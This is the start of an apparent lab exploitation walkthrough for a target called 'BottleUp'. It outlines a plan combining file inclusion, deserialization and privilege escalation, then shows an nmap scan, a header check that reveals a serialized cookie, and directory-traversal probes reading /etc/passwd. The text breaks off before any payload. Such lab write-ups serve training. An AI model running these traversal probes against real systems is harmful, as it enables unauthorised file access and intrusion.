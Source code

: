 # Exploitation Guide for BottleUp

# Summary:

In this guide we will exploit a local file inclusion vulnerability and a deserialization vulnerability in order to establish our intial foothold. In order to escalate privileges we will exploit a hijacking vulnerability in a binary on the target machine.

## Enumeration

We begin the enumeration process with an `nmap` scan.

```
$ nmap  172.16.201.19 
...
Nmap scan report for 172.16.201.19
Host is up (0.093s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 26.82 seconds
```

Starting with port `8080`, we navigate to the target IP which reveals the following blog.



Checking the headers we see that the server is running `WSGIServer/0.2 CPython/3.8.10`

```
$ curl 172.16.201.19:8080 --head
HTTP/1.0 200 OK
Date: Tue, 24 Jan 2023 13:41:16 GMT
Server: WSGIServer/0.2 CPython/3.8.10
Content-Length: 7760
Content-Type: text/html; charset=UTF-8
Set-Cookie: name="!nkLtajFuXbtwrFsb87EDGg==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg=="
```

Despite the page being static, when viewing the source of the webpage we find the following blog links.

```
<a href="/view?page=views/2.html">
<a href="/view?page=views/1.html">
<a href="/view?page=views/3.html">
```

We notice that the links contain the `page=` paramater, and proceed by testing for LFI.

```
/view?page=/etc/passwd
/view?page=../../../../../etc/passwd
```
